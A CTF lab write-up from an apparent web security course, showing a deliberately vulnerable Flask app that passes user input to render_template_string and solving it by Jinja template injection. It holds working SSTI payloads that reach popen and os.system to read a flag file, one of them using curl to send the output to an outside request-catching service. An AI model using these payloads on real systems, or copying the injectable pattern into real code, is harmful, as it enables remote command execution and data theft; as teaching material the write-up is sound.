 ```yaml
---
title: Simple Web 0x15(Lab - `Jinja`)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/SSTI"
---
```


# Simple Web 0x15(Lab - `Jinja`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8700/

## Background
[Web Security 0x1](https://youtu.be/_hasOTGximc?t=5863)

## Source code
:::spoiler code
```python=
from flask import Flask, render_template_string, request, send_file

app = Flask(__name__)


@app.get("/")
def home():
    return render_template_string("""
    <form method="POST">
        <input type="text" name="name" placeholder="Your name">
        <button>submit</button>
    </form>
    <p><a href="/source">Source code</a></p>
    """)


@app.post("/")
def welcome_message():
    name = request.form.get('name')
    return render_template_string("<p>Hello, " + name + "</p>")


@app.get("/source")
def source():
    return send_file(__file__, mimetype="text/plain")


if __name__ == '__main__':
    app.run(threaded=True, debug=True)
```
:::

## Exploit

### Easy way
{% raw %}
payload: `{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("cat /th1s_15_fl4ggggggg").read()}}`
{% endraw %}
![](https://i.imgur.com/dRLbk0J.png)

### Need Tool way - [Beeceptor](https://beeceptor.com/)
`Beeceptor` will catch our result from `curl`. 
<font color="FF0000">It'll execute `cat /th1s_15_fl4ggggggg` first and the result will be sent to `Beeceptor` as attached data by `curl`.</font>
Payload: 
{% raw %}
```!
{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('curl {Beeceptor URL} -d "`cat /th1s_15_fl4ggggggg`"')}}
```
{% endraw %}
![](https://i.imgur.com/PQ39MMI.png)

Flag: `FLAG{ssti.__class__.__pwn__}`